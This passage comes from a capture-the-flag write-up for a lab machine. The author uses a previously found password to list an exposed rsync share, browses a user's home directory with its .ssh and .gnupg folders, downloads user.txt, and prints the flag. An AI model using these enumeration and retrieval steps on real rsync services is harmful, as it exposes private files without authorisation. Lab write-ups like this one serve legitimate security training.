 So you can use rsync to mirror files between a source and destination. You can also use it to browse the backup like a file share. Let's have a look:

```text
┌──(root💀kali)-[~/thm/internal]
└─# rsync rsync://rsync-connect@internal.thm/                                    
files           Necessary home interaction
```

There is a folder being synced called files, we can look inside it using the password we found earlier:

```text
┌──(root💀kali)-[~/thm/internal]
└─# rsync rsync://rsync-connect@internal.thm/files                
Password: 
drwxr-xr-x          4,096 2021/02/01 12:51:14 .
drwxr-xr-x          4,096 2021/02/06 12:49:29 sys-internal

┌──(root💀kali)-[~/thm/internal]
└─# rsync rsync://rsync-connect@internal.thm/files/sys-internal/
Password: 
drwxr-xr-x          4,096 2021/02/06 12:49:29 .
<SNIPP
-rw-r--r--              0 2021/02/01 12:54:03 .sudo_as_admin_successful
-rw-r--r--             14 2018/02/12 19:09:01 .xscreensaver
-rw-------          2,546 2021/02/06 12:49:35 .xsession-errors
-rw-------          2,546 2021/02/06 11:40:13 .xsession-errors.old
-rw-------             38 2021/02/06 11:54:25 user.txt
drwxrwxr-x          4,096 2021/02/02 09:23:00 .cache
drwxrwxr-x          4,096 2021/02/01 12:53:57 .config
drwx------          4,096 2021/02/01 12:53:19 .dbus
drwx------          4,096 2021/02/01 12:53:18 .gnupg
drwxrwxr-x          4,096 2021/02/01 12:53:22 .local
drwx------          4,096 2021/02/01 13:37:15 .mozilla
drwxrwxr-x          4,096 2021/02/06 11:43:14 .ssh
drwx------          4,096 2021/02/02 11:16:16 .thumbnails
drwx------          4,096 2021/02/01 12:53:21 Desktop
drwxr-xr-x          4,096 2021/02/01 12:53:22 Documents
drwxr-xr-x          4,096 2021/02/01 13:46:46 Downloads
drwxr-xr-x          4,096 2021/02/01 12:53:22 Music
drwxr-xr-x          4,096 2021/02/01 12:53:22 Pictures
drwxr-xr-x          4,096 2021/02/01 12:53:22 Public
drwxr-xr-x          4,096 2021/02/01 12:53:22 Templates
drwxr-xr-x          4,096 2021/02/01 12:53:22 Videos
```

Lot's of folders to look through, first let's get the user flag:

```text
┌──(root💀kali)-[~/thm/internal]
└─# rsync rsync://rsync-connect@internal.thm/files/sys-internal/user.txt user.txt
Password: 

┌──(root💀kali)-[~/thm/internal]
└─# cat user.txt             
THM{da7c20696831f253e0afaca8b83c07ab}
```

